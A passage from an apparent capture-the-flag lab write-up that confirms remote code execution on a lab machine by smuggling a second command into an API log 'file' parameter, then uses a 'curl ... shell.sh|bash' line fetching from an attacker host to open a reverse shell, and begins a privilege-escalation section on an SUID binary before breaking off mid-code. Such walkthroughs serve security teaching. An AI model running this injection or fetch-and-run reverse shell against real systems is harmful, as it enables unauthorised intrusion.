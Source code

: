 We can confirm RCE using this:

```
$ curl 'http://10.129.71.62/api/logs?file=t;curl+10.10.14.13/rcecfm' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDU3NDUyNDA1MjNjMDA0N2VhOWM4NTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJpYXQiOjE2ODM0NDA5ODZ9.88MSrMOiPfw7x7CzUNKPvNlUmVPMQ2S-ZtaQY-9PRuE'
```

<figure><img src="../../../.gitbook/assets/image (4031).png" alt=""><figcaption></figcaption></figure>

Then we can just use `curl 10.10.14.13/shell.sh|bash` to get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (2829).png" alt=""><figcaption></figcaption></figure>

Grab that user flag.

## Privilege Escalation

### Coredump LFI

Within the `/opt` directory, there's an SUID binary for a program called `count`, and the machine provides us with the source code:

```
dasith@secret:/opt$ ls -la
total 56
drwxr-xr-x  2 root root  4096 Oct  7  2021 .
drwxr-xr-x 20 root root  4096 Oct  7  2021 ..
-rw-r--r--  1 root root  3736 Oct  7  2021 code.c
-rw-r--r--  1 root root 16384 Oct  7  2021 .code.c.swp
-rwsr-xr-x  1 root root 17824 Oct  7  2021 count
-rw-r--r--  1 root root  4622 Oct  7  2021 valgrind.log
```

Here's the code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/prctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <linux/limits.h>

void dircount(const char *path, char *summary)
{
    DIR *dir;
```